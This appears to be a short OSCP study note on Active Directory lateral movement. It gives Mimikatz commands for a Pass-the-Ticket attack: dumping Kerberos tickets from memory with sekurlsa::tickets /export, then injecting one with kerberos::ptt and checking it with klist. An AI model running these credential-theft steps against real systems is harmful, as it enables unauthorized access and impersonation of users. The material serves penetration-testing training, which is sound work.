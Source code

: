 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/5-pass-the-ticket/","updated":"2024-01-05T11:37:01.821+01:00"}
---
```


----------
- Dumped tickets from memory may be exported and used anywhere
- Also, if the tickets belong to the current user no administrative privileges are needed

### Pass-the-Ticket using Mimikatz:
1. Start Mimikatz and enable debug.
2. Dump all Kerberos tickets from memory (including logged in users):
```
sekurlsa::tickets /export
```
3. List all dumped tickets:
```
dir *.kirbi
```
5. Inject any selected ticket:
```
kerberos::ptt ticket.kirbi
```
6. Examine ticket:
```
klist
```

